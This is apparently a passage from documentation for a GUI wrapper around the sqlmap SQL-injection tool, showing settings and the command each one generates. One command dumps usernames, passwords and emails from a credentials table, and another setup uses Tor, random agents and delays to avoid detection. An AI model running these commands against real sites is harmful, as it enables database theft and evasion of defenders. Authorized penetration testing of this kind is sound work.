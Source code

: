 **Generated Command:**
```bash
sqlmap -u "http://example.com/user.php?id=1" -D users_db -T user_credentials -C username,password,email,last_login --dump --start=1 --stop=100 --output-dir=./data_extract/ --csv -v 2
```

## 🔧 Performance Optimization

### Example 8: Fast Scanning
**Scenario:** Quick vulnerability assessment with speed priority

**GUI Configuration:**
```
Detection Tab:
├── Level: 1 (Fastest)
├── Risk: 1 (Safest)
└── Techniques: E (Error-based only)

Request Tab:
├── Threads: 10 (Maximum)
├── Keep Alive: ✓
├── Null Connection: ✓
└── Timeout: 15

General Tab:
├── Batch: ✓
├── Verbose Level: 1
└── Progress Bar: ✓
```

**Generated Command:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --level=1 --risk=1 --technique=E --threads=10 --keep-alive --null-connection --timeout=15 --batch -v 1
```

### Example 9: Stealth Scanning
**Scenario:** Avoid detection while performing thorough testing

**GUI Configuration:**
```
Detection Tab:
├── Level: 2
├── Risk: 1
└── Techniques: BT (Boolean + Time-based)

Request Tab:
├── Delay: 5 (seconds between requests)
├── Random Agent: ✓
├── Tor: ✓
└── Timeout: 90

Injection Tab:
├── Tamper Scripts: space2comment
└── Skip Static: ✓

General Tab:
├── Verbose Level: 0 (Minimal output)
└── Suppress Output: ✓
```
